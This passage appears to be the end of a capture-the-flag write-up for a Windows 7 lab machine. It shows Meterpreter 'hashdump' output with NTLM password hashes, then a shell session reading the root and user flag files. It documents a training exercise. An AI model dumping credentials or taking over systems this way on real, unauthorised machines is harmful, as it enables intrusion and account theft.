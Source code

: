The exploit works and now we are AUTHORITY\SYSTEM, this means we have administrator privileges.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a450f6000be7df50ee304d0a838d638f:::
babis:1000:aad3b435b51404eeaad3b435b51404ee:a1133ec0f7779e215acc8a36922acf57:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Now It's time to search for the flags, the user flag and the root flag.

```bash
meterpreter > shell
Process 3536 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Administrator\Desktop

14/01/2021  11:42 ��    <DIR>          .
14/01/2021  11:42 ��    <DIR>          ..
18/03/2017  01:17 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.281.924.608 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
e621a0b5041708797c4fc4728bc72b4b
```

```bash
c:\Users\babis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\babis\Desktop

18/03/2017  01:14 ��    <DIR>          .
18/03/2017  01:14 ��    <DIR>          ..
18/03/2017  01:18 ��                32 user.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.281.924.608 bytes free

c:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```

---